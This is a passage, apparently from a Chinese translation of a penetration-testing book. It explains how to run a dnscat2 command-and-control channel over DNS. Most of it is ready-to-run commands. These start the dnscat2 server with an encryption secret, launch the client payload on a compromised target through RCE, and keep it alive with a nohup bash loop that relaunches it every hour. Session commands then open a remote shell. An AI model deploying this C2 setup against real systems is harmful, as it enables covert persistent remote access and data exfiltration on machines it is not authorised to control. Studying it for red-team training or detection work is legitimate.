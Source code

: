 现在我们已经配置好了权威 DNS，我们的攻击服务器作为一个 DNS 服务器正在运行 dnscat2，并且我们已经编译了恶意软件。我们已经准备好在目标机器中执行我们的 payload。

在开始之前，我们需要在攻击服务器上启动 dnscat2。要启用多个配置，其中的主要配置是配置那个 `-secret` 标志来确保我们在 DNS 请求中的通信是加密的。另外，一定要更换我上面用于演示的 loca1host.com 域名，使用你自己拥有的域名并创建随机密钥字符串。

在你的攻击服务器中启用 dnscat2:
```
screen
ruby ./dnscat2.rb loca1host.com —secret 39dfj3hdsfajh37e8c902j
```

假设你在易受攻击的服务器上有某种 RCE（远程命令执行漏洞）。 你可以运行 shell 命令并上传我们的 dnscat payload。执行 payload：
```
./dnscat loca1host.com —secret 39dfj3hdsfajh37e8c902j
```

这将在目标机器中启动 dnscat，域名查询使用了我们自定义的的权威服务器，从而创建我们的 C2 通道。 我留意到一件事是有时 dnscat2 进程会莫名其妙挂掉。这可能来自大型文件传输或者只是程序崩了。为了规避这些类型的问题，我想确认我的 dnscat payload 有返回。为此，我通常喜欢使用快速 bash 脚本启动我的 dnscat payload：
```
nohup /bin/bash -c “while true; do /opt/dnscat2/client/dnscat loca1host.com -secret 9dfj3hdsfajh37e8c902j -max-retransmits 5; sleep 3600; done” > /dev/null 2>&1 &
```

这将确保如果客户端 payload 进程因任何原因而挂掉了，它将每小时生成一个新的实例。有时你只有一次机会来运行你的 payload，那么你需要让程序自己计数！
最后，如果你要在 Windows 上跑这个 payload，你可以编译使用 dnscat2 payload......或者，为什么不在 PowerShell 中执行此操作呢？！ Luke Baggett 写了一个关于 dnscat 客户端的 PowerShell 版本->[点此查看](https://github.com/lukebaggett/dnscat2-powershell)。

#### dnscat2的连接
在我们的 payload 执行并连接回我们的攻击服务器之后，我们应该看到类似于下面的一个新的`ENCRYPTED AND VERIFIED`消息。通过输入 “window”，dnscat2 将显示所有会话。现在，我们有一个名为“1”的单行命令会话。

![](../images/chapter_1/1-12.png)

我们可以通过与我们的命令会话交互来生成终端样式 shell:
- 与我们的第一个命令会话进行交互
```
window -i 1
```
- 启动shell会话
```
shell
```
- 回到主会话
```
Ctrl-z
```
- 与 2 会话进行交互
```
window -i 2
```
- 现在，你应该能够运行所有 shell 命令（例如 ls）
